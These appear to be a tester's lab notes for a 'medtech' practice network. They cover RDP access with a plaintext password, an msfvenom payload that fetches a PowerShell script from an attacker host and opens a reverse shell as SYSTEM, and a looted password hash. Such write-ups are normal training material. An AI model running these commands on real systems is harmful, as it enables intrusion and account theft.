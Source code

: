 - `rdp` as `yoshi` can be used to perform initial access. Run `proxychains xfreerdp /v:172.16.247.12 /d:medtech /u:yoshi /p:Mushroom\! /drive:resources,/home/saxon/Desktop /dynamic-resolution`.
# PrivEsc
- `winpeas` will identify a non-default executable located at `C:\TEMP`.![[Pasted image 20240218124445.png]]
	- Which we would assume is ran regularly by hopefully a more privileged user.
- Use `msfvenom -p windows/x64/exec -f exe -o backup.exe CMD="powershell.exe -nop -w hidden -c iex(iwr http://192.168.45.229/nishang/Shells/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.229 443"` to generate the payload.
- Upload and replace `backup.exe` at `C:\TEMP` and wait for reverse shell call back as `nt authority/system`.
# Loot
- `leon`: 2e208ad146efda5bc44869025e06544a